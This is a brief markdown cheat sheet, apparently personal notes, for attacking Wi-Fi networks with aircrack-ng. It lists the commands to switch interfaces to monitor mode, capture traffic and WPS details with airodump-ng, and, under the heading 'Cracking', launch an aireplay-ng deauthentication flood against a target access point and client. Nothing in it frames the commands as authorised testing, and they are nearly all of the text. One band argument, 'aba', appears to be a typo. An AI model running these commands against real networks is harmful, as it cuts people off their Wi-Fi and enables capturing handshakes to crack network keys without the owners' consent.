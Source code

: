 ## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitoring
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --band abg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --band abg --bssid 00:00:00:00:00:00 --channel 1 wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --band aba --bssid 00:00:00:00:00:00 --channel 1 \
            --write-interval 5 --output-format pcap wlan1 --write session0
```

## Cracking
```bash
iwconfig wlan0 channel 4

aireplay-ng -0 99 -D -a BSSID -c TARGET wlan0
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
